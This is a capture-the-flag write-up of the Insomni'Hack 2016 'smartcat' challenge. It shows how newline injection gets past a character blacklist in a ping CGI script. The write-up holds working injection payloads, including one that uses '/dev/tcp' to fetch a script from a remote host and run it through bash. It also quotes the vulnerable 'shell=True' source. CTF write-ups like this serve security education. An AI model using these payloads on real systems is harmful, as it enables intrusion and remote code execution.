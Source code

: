 ```yaml
---
title:      Insomni'Hack Teaser 2016 - smartcat
date:       2016-01-16 01:25:00
summary:    Thou shalt not use blacklists!
categories: InsomniHack Web
author:     pogliamarci
tags:
 - Insomni'Hack
 - Web
---
```


In the smartcat challenge, we were given a tiny web
application with just a single functionality: a form that allows
to remotely ping an arbitrary host (yeah, that is the most classical
example of shell command injection!).
The challenge is divided in two parts (smartcat1 and smartcat2).
Although not difficult, it was quite fun, especially the second part.




### smartcat1 (50 points)

> Damn it, that stupid smart cat litter is broken again! Now only the debug interface is available [here](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) and this stupid thing only permits one ping to be sent! I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!

Pointing a browser to the debug interface, we are greeted with a form that
accepts a single parameter and
prints what seems the output of the Linux `ping` command. In fact, pinging
a non-existent host gives the message `Error running ping -c 1`.
Trying a trivial injection fails, and the error reveals that there is a blacklist
of allowed characters in the request string.
Good, otherwise the challenge would not have been fun at all!

After a few tries, we notice that the newline character (`0x0A`) is not blacklisted:
we are able to retrieve the path and content of the current directory with a POST
request to `index.cgi`, using `%0apwd%0als` as the `dest` parameter (i.e., the host to ping).
This leads to this output:

    /var/www/cgi-bin
    index.cgi
    there

Likely, the flag is in `there`, which is a directory. Unfortunately, the whitespace
character is blacklisted, so can't use the ls command to list the contents.
To overcome this issue, we used `find` (without any argument) to recurse into
the subdirectories of the current directory and list their content.
Doing a request with `dest=%0afind` as a parameter leads to:

    .
    ./index.cgi
    ./there
    ./there/is
    ./there/is/your
    ./there/is/your/flag
    ./there/is/your/flag/or
    ./there/is/your/flag/or/maybe
    ./there/is/your/flag/or/maybe/not
    ./there/is/your/flag/or/maybe/not/what
    ./there/is/your/flag/or/maybe/not/what/do
    ./there/is/your/flag/or/maybe/not/what/do/you
    ./there/is/your/flag/or/maybe/not/what/do/you/think
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

... and finally we just (smart)cat the flag: `dest=dest=%0acat<there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

{% highlight html %}
<p>Ping results:</p><br/>
  <pre>INS{warm_kitty_smelly_kitty_flush_flush_flush}
</pre>
{% endhighlight %}

By the way, using cat we can also retrieve the web application source code (`dest=%0acat<index.cgi`).
It is a simple Python CGI script, which filters the input according to a blacklist:

    blacklist = " $;&|({`\t"

and then passes it to the `ping` command without further sanitization:

    results = subprocess.check_output("ping -c 1 "+dest, shell=True)

### smartcat2 (50 points)

> Almost there, but now you should be able to do better than a cat (sorry about the pun). I'm sure you can leverage the previous bug to get a shell. Go on [that debug interface](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) again and read the flag in /home/smartcat/

Now we are told that the flag is in `/home/smartcat`.
As we can't use whitespaces, we need a smarter way to `cd` to that directory and list the content: using `dest=%0aHOME=/home/smartcat%0acd%0als` does the trick, and reveals that the directory contains two files:

    flag2
    readflag

We don't have the permissions to read `flag2`, but we can read and execute `readflag` (which is an executable binary).
Running it, we are greeted with this message:

> Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
Do not include the quotes. Each part is a different line.

At this point, we decided to use some bash-fu to retrieve and execute
a file from a remote host.
We used the `/dev/tcp` bashism to retrieve a script from an remote host, and give it
as an input to `bash`:

{% highlight bash %}
bash << EOF
bash < /dev/tcp/127.0.0.1/9000
EOF
ls
{% endhighlight %}

a.k.a. `dest=%0Abash<<EOF%0Abash</dev/tcp/127.0.0.1/9000%0AEOF%0Als`.
We terminate the command with `ls` so that the CGI application receives a successful return code in any case.
Instead of 127.0.0.1, we put the address of a publicly-accessible host
which was serving the following file on TCP port 9000:

{% highlight bash %}
#!/bin/bash

cd /home/smartcat
(
   echo "Give me a..."
   sleep 2
   echo "... flag!"
) | ./readflag
{% endhighlight %}

That was it. And the flag is...

    Flag:
                ___
            .-"; ! ;"-.
          .'!  : | :  !`.
         /\  ! : ! : !  /\
        /\ |  ! :|: !  | /\
       (  \ \ ; :!: ; / /  )
      ( `. \ | !:|:! | / .' )
      (`. \ \ \!:|:!/ / / .')
       \ `.`.\ |!|! |/,'.' /
        `._`.\\\!!!// .'_.'
           `.`.\\|//.'.'
            |`._`n'_.'|  hjw
            "----^----"
    
    INS{shells_are _way_better_than_cats}

Of course, with the same trick, we could also have launched an interactive reverse shell and read the flag from there :-)
